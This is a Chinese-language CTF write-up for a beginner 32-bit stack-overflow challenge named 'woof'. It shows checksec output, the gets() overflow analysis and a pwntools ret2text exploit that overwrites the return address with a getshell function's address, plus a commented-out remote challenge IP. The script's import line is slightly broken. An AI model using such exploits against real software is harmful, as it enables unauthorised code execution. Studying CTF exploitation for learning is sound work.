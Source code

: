 ```yaml
---
title: 基础栈溢出ret2text 已有提权函数
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

> 32位寄存器4个字节，函数传参只使用栈

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 小狗汪汪汪

使用file和checksec 查看elf的位数和安全保护
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file woof
woof: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b3b9279f6e821fe77197c0b174bfee82dd39de52, not stripped
                                                                       
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=woof
[*] '/home/kali/win/Downloads/woof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
> 可以看到是32为小段序程序，且没有开启栈保护


## IDA反编译源码
![alt text](image.png)

可以看到main函数的流程，值得注意的是 dog函数


![alt text](image-1.png)
很明显可以看到gets这里存在栈溢出，s是一个长度为9的字符数组

![alt text](image-2.png)

要覆盖的地址在 栈上的 s + ebp 的位置 也就是 9 + 4

然后找一下有没有可以执行系统命令的函数
![alt text](image-3.png)
![alt text](image-4.png)

存在getshell函数

我们获取它的地址是 0x0804859B

## 编写exp脚本
> 使用pwntools库 可以方便的编写exp
```py
pwn import *
context(os="linux", arch='i386')
io = process("./woof")
# io = remote("120.46.59.242", 2111)

getshell_addr = 0x0804859B

padding = 9 + 4

payload = b'A' * padding + p32(getshell_addr)

io.send(payload)
io.interactive()

```

执行脚本后可获得交互shell